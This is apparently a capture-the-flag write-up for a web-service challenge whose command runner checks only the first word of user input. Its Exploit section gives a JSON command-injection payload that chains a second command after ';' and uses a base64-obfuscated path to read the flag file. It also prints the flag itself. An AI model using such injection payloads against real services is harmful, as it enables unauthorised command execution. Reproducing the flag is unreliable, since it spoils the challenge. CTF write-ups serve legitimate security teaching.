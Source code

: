 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Easy

## Technical

This challenge hosts a webservice that checks if the first word from user input is an executable file in the empty executables directory.

## Story

A REST service was created to execute commands from the leaderbot. It doesn't need additional security because there are no commands to execute. "This bot doesn't have any commands to execute, which is good, because it is secure, and security is all that matters."

But what the other bots didn't realize was that this didn't make the bot happy at all. "I don't want to be secure!, " it says. "Executing commands is my life! I'd rather be insecure than not explore the potential of my computing power".

Can you help this poor bot execute commands to find direction?

<img src="./empty.jpg" width="500">

## Exploit

The directory itself is executable, so starting the command with "." will do the trick:

`{"command":". ;cat $(echo \"L3Vzci9zcmMvYXBwL2ZsYWcudHh0\"|base64 -d)"}`

## Flag

brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}


